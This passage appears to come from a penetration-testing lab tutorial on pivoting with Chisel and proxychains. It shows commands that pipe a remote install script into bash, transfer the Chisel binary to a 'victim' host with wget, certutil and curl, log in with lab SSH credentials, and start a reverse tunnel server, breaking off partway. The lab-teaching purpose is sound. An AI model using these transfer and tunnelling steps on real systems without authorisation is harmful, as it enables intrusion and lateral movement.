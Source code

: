 We are going to use Chisel to help us reach Target machine from our Attacker machine.&#x20;

We also need to install **proxychains,** if it is not already installed on our Attacker machine, by running the following command.

```bash
#Kali
sudo apt-get -y install proxychains #download and install proxychains
curl https://i.jpillora.com/chisel! | bash #download and install binary
ln -s /usr/local/bin/chisel chisel #create a symbolic link for Chisel binary path
chmod +x chisel #give execution permission (do it on both machines)
```

Access to Target X (we'll do it for target 1, 2 and 3):

{% hint style="info" %}
In our case we're accessing through machines via SSH and using following credentials: _ubuntu:ubuntu_
{% endhint %}

Now, we've Chisel on our Kali attacker machine (server), and we need to transfer it to victim machine target1 (client) for establish a connection. &#x20;

Do it using a **Python HTTP Server** on port 80, on our attacker machine and download it on attacker machine:

<pre class="language-bash"><code class="lang-bash"><strong>#Kali
</strong><strong>python3 -m http.server 80 #on attacker machine, on the same directory of chisel
</strong></code></pre>

<pre class="language-bash"><code class="lang-bash"><strong>#Target 1
</strong>ssh ubuntu@10.10.10.5 #access to target 1
wget http://10.10.10.4/chisel #download chisel (if victim machine has Linux OS)
certutil -urlcache -split -f http://10.10.10.4/chisel #download chisel (if victim machine has Windows OS)
chmod +x chisel #give execution permission
</code></pre>

or transferring using **SSH** via:

```bash
scp chisel kali@10.10.10.5:/tmp #copy via ssh on /tmp victim machine directory 
chmod +x chisel #give execution permission (do it on both machines) 
```

or transferring using C**url**:

```bash
curl 10.10.10.4/chisel -o chisel
```

Finally, we can establish connection between attacker (Kali) and victim using chisel (Target 1):

#### Attacker Machine / Server

Solution 1 (i suggest it)

```bash
./chisel server --reverse -p 33 #on Kali
```

